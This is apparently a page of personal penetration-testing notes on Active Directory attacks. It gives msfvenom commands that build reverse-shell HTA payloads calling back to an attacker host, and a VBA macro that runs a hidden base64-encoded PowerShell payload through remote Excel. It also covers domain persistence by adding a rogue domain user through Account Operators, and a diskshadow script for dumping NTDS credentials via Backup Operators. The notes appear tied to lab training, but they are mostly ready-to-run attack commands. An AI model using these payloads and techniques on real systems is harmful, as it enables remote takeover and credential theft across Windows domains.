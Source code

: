```bash
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\172.16.196.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\legacy.xls")

$com.Run("mymacro")

#-reaverse shell, 无法获取shell时，尝试更换端口及paylod(x64)
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.196.10 LPORT=4444 -f hta-psh -o evil.hta
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.196.10 LPORT=443 -f hta-psh -o evil2.hta
//evil.hta  powershell str is base64 encoded, split and copy to mymacro
Sub MyMacro()
    Dim Str As String
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

## ad persistence
+ silver ticket
+ golden ticket

### privilege group
+ high value group, also able to privesc: domain admins, backup operators, 

#### Account operators
+ Allows creating non administrator accounts and groups on the domain
+ Allows logging in to the DC locally

```bash
Get-NetGroupMember -Identity "Account Operators" -Recurse

net user test /domain

# add user 
net uer hack1 Password! /add /domain
```

#### Backup operators
+ As with Server Operators membership, we can access the DC01 file system if we belong to Backup Operators. check hacktricks.
+ dump ntds to get the creds, or dll hijack. htb-blackfield.

```bash
# 1 diskshadow the c:\ 
## scripts, don't forget to unix2dos if error.
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit

## unix2dos, and upload
unix2dos diskshadow.txt
```